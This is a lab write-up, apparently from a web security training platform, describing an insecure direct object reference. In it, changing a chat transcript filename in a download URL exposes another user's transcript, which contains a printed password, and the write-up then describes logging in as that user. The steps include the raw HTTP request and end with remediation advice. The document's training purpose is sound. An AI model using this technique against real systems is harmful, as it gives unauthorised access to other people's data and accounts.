

# IDOR via Chat Transcript Filename Manipulation

## Lab: Insecure Direct Object References

### Objective
Exploit an IDOR vulnerability in chat transcript downloads to find carlos's password and log into their account.

### Credentials
Use account to log in ( wiener:peter )

### Exploitation Steps

**Step 1:** Open the **Live chat** tab and send a message.

**Step 2:** Click **View transcript** and observe the URL:
```
GET /download-transcript/2.txt
```

**Step 3:** Change the filename to `1.txt`:
```
GET /download-transcript/1.txt
```

**Step 4:** Review the response. The transcript contains carlos's password:
```
fpgrtmpdb03bk4o6lwk8
```

**Step 5:** Log in as carlos using the stolen password.

### Attack Summary

| Request | Result |
|---------|--------|
| `/download-transcript/2.txt` | Your own transcript |
| `/download-transcript/1.txt` | Carlos's transcript with password |

### Raw Request
```
GET /download-transcript/1.txt HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
```

### Vulnerability
Predictable numeric filenames + no access controls = IDOR

### Remediation
- Use random UUIDs for filenames
- Verify user ownership before serving transcripts

---

## Lab Solved ✓


